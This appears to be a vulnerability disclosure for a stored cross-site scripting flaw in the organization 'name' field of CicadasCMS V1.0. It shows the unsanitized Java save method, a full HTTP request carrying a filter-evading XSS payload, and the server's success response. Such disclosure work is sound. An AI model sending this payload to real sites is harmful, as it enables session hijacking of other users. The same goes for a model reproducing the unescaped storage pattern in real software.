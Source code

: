 CicadasCMS - Cross Site Scripting on (cms/service/impl/OrganizationServiceImpl.java name parameter) 

Vendor Homepage:
```
https://gitee.com/westboy/CicadasCMS/branches
```

Version: 

```
V1.0
```

Tested on: 

```
JAVA, Apache, MySQL
```

Affected Page:

```
cms/service/impl/OrganizationServiceImpl.java
```

On this page, name parameter of the pojo is vulnerable to Cross Site Scripting

```
    public String save(TSysOrg pojo) {
         if(orgMapper.insertSelective(pojo)>0)
            return JsonUtil.toSUCCESS("添加成功！","org-tab",false);
        return JsonUtil.toERROR("添加成功！");
    }
```

Request:

```
POST /system/org/save HTTP/1.1
Host: 172.16.99.36
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:143.0) Gecko/20100101 Firefox/143.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 98
Origin: http://172.16.99.36
Connection: keep-alive
Referer: http://172.16.99.36/system
Cookie: SESSION=3d6a72f7-d5f1-44a9-96db-ad82e7655d77; bjui_theme=blue
Priority: u=0
Pragma: no-cache
Cache-Control: no-cache

id=&name=%3Cdetails+open+ontoggle%3Dtop%5B'ale'%2B'rt'%5D(1)%3E&code=1111&pid=0&telPhone=&address=
```

Response:

```
HTTP/1.1 200 
Content-Type: application/json;charset=UTF-8
Content-Length: 120
Date: Sun, 21 Sep 2025 12:37:13 GMT

{"tabid":"org-tab","forward":"","message":"添加成功！","closeCurrent":false,"forwardConfirm":"","statusCode":"200"}
```
